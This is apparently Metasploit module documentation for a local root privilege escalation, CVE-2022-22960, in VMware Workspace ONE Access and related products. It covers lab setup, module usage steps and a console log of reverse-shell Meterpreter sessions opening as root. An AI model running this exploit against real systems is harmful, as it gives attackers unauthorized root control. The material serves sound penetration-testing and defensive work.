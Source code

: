 ## Vulnerable Application

This module exploits CVE-2022-22960 which allows the user to overwrite the permissions of the certproxyService.sh script
so that it can be modified by the horizon user. This allows a local attacker with the uid 1001 to escalate their
privileges to root access.

| Vulnerable Application  | Vulnerable version   |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager| 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file. 
During VM Configuration within VMware Fusion, in Addition Settings input the following: 

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1 

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1 

IP Address: 192.168.123.16 
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
 - Appliance Administrator Account
 - Appliance Root Account
 - Remote User Account

Select Database
 - Database Type: Internal Database

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/local/vmware_workspace_one_access_cve_2022_22960`
1. Set the `SESSION`, `LHOST`, and `TARGET`
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796

```
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > use exploit/linux/local/vmware_workspace_one_access_cve_2022_22960
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set lport 4443
lport => 4443
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. vulnerable
[*] Writing '/tmp/QbCpIao.sh' (1658 bytes) ...
[*] Triggering the payload...
[*] Sending stage (24772 bytes) to 192.168.123.16
[+] Deleted /tmp/QbCpIao.sh
[*] Meterpreter session 9 opened (192.168.123.1:4443 -> 192.168.123.16:53800) at 2023-04-07 10:38:05 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : access01.corp.local
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.16 - Meterpreter session 9 closed.  Reason: User exit
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set target 1
target => 1
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. vulnerable
[*] Writing '/tmp/oMNw.sh' (250 bytes) ...
[*] Writing '/tmp/FsMoUmqB.sh' (1132 bytes) ...
[*] Triggering the payload...
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Deleted /tmp/oMNw.sh
[+] Deleted /tmp/FsMoUmqB.sh
[*] Meterpreter session 10 opened (192.168.123.1:4443 -> 192.168.123.16:53838) at 2023-04-07 10:38:34 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
